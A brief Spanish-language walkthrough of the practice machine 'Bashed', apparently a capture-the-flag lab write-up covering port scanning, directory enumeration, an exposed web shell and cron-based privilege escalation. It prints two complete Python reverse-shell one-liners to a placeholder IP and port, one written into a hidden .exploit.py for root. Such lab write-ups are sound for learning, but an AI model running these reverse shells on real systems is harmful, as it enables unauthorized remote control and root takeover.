

Bashed
- Hago un escaneo de puertos nmap -Pn -sV -sC -p- --open 10.10.10.68 -oN scan.txt
- Solo hay un servicio HTTP abierto
- A primera vista no encuentro nada interesante
- Hago una enumeración de directorios con dirb dirb http://10.10.10.68/
- Encuentro un par de directorios interesantes con /dev/ y /uploads/
- En el directorio /dev/ se encuentran dos archivos
- El archivo phpbash.php nos devuelve una interfaz
- Podemos obtener un reverse shell de php
- Primero ponemos el listener

- Uso la siguiente script python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
- Podemos ejecutar comandos sudo con el usuario scriptmanager
- Cambiamos al usuario scriptmanager
- Descargo linpeas.sh en la máquina atacada para buscar una posible privesc.
- Después de ejecutar linpeas nos encuentra la carpeta /scripts
- En ella podemos ver que la script test.py escribe en el archivo test.txt
- test.txt fue creado por el usuario root pero podemos usar test.py para editarlo y escalar privilegios
- Algo está corriendo la scriptm test.py del directorio /scripts
- Parece ser que hay un cron que ejecute las scripts creadas dentro del directorio scripts
- Creo el exploit
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<IP>\",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py - Activo el listener
- Recibo el reverse shell como root